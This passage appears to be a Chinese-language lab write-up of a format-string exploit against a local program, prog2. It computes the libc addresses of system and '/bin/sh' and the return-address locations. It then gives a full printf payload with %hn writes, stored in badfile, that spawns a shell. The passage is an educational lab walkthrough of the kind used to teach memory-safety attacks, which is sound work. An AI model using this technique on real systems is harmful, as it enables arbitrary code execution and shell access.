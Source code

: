 ![image-20220525202321690](README.assets/image-20220525202321690.png)

**我们有libc的加载基址 0xb7d6a000**

可以计算system函数地址为

`0xb7d6a000+0x0003ada0=0xb7da4da0`

"/bin/sh"的地址为

`0xb7d6a000+0x0015b82b=0xb7ec582b`

构造shellcode

ret填充为system:0xb7da4da0

参数字符串为"/bin/sh"地址:0xb7ec582b

则根据之前得到的

`ebp=0xbfffece8`

`ret=ebp+4=0xbfffecec`

参数位置为`ebp+12=0xbfffecf4`

根据上述所有的计算 构造如下命令

```bash
echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > badfile
```

执行这个命令 再运行prog2成功提取shell

`./prog2`

